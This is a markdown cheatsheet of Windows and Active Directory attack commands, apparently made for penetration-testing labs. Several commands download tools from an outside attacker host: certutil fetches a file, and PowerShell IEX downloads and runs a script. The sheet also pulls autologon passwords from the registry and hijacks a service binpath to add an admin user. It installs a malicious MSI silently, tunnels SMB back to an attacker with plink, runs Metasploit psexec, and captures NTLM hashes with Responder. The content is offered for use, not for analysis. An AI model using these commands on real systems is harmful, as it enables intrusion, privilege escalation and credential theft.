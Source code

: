 # Cheatsheet

## Recon

* IP, subnet, default gateway etc: `ipconfig /all`

* Current user name, info in current access token, SID, privs and group that current user belongs to: `whoami /all`
* Local groups on current machine: `net localgroup`
* Local administrators of current machine: `net localgroup "administrators"`
* Active tcp connections, ports, which the computer is listening, ethernet statistics, ip routing table: `netstat -an`
* Running processes with verbose mode: `tasklist /V`
* Startup programs: `net start`
* Windows services with binary paths: `sc qc <service>`
* OS, processor, memory, bios related info: `systeminfo>output.txt`
* Scheduled jobs: `schtasks /query /fo LIST /v`
* Patches installed and figuring out if its missing important any patch: `wmic qfe get Caption,Description,HotFixID,InstalledOn` 

## Domain Network Recon

* Mapping of IP address to its MAC address in the network: `arp -a`
* Domain: `echo %USERDOMAIN%`
* Domain controller name: `echo %logonserver%`
* List of domain users: `net user /domain` 
* List of groups in the domain: `net group /domain`
* AD domain password policy: `net accounts /domain`
* Map AD trust relationships: `nltest /domain_trusts`

## Moving files

> - Ref: http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html

```
certutil -verifyctl -split -f ​ http://10.10.14.8/taskkill.exe
mv *.bin taskkill.exe
```

## Extract ZIP
```
Add-Type -assembly
'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory
("C:\backup.zip","C:\Example\")
```

## View File Systems
```
gdr -PSProvider 'FileSystem'
```

## Access shared volume
```
net use y: \\10.10.10.57\c$ /user:administrator 1234test
```

## Invoke command with credentials
```
$user = '.\administrator';
$psw = '1234test';
$secpsw = ConvertTo-SecureString $psw -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $secpsw
```
```
invoke-command -computername localhost -credential $credential
-scriptblock {cd C:\Users\Administrator\Desktop\;C:\Users\Administrator\Desktop\root.exe}
```
## Alternate Data Stream
- Listing: `dir /R`
- Find Streams: `​get-item -path *.* -stream *`
- Reading: `​powershell Get-Content -Path "hm.txt" -Stream "root.txt"`
- Reading: `get-content backup.zip -stream 'pass'`
- Reading: `streams.exe /accepteula -s` from sysinternals

## MSI

### Installing MSI
```
msiexec /quiet /qn /i malicious.msi
```
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

## Services

- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Service information: `Get-Service​ ​ "Ubiquiti UniFi Video"​ | fl *`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

### Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.

## Auto Save Password to PowerShell
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```
```
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
```
## Permissions

```
whoami /priv
```

## View Permisions
```
cacls C:\Users\Administrator\Desktop\root.txt
```

### Grant Permissions
```
cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:F
```

## SSH from Windows to Attacker (Kali)

### Manual
From Windows:
```
plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8
```

From Attacker:
```
netstat -ano | grep 445
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

### Metasploit
```
portfwd add -l 445 -p 445 -r 127.0.0.1
use exploit/windows/smb/psexec
 set SMBDOMAIN CHATTERBOX
 set SMBUSER Administrators
 set SMBPASS Welcome1!
 set RHOST 127.0.0.1
exploit
```



## Enumeration Tips 

> Ref: [https://scriptdotsh.com/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/](https://scriptdotsh.com/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/)

- Check the policies related to Network Access Control. Whether it can be bypassed or not.
- Go for guest wifi. It could lead you to get inside the company network if it is not segregated.
- Check for the printers in the environment. Try to do printer exploitation. Printers are part of domain network too. Try default passwords.
- Check for misconfigurations in the systems as well as the network.
- At the Domain level, always look for “Administrators” group members instead of going just for “Domain Admins”. Reason being Builtin Administrators group is the superior one. Even “Domain Admins” group is also the member of administrators groups.
- Look for User Rights Assignments in the GPOs. They get checked very rarely. The ones which are configured for Domain Controllers actually have domain rights.
- Most of the organizations use the same image for all of their deployments. Which means they use same local admin password. Always check if same local admin account is being used in whole domain.
- Identify Admin Restrictions. (Logon Hours, LogonWorkstations) Decoys can be detected using this.
- Use Responder to collect NTLM hashes.
- Check [SYSVOL](https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx) too.
- ShareEnum to look for file shares. 
- 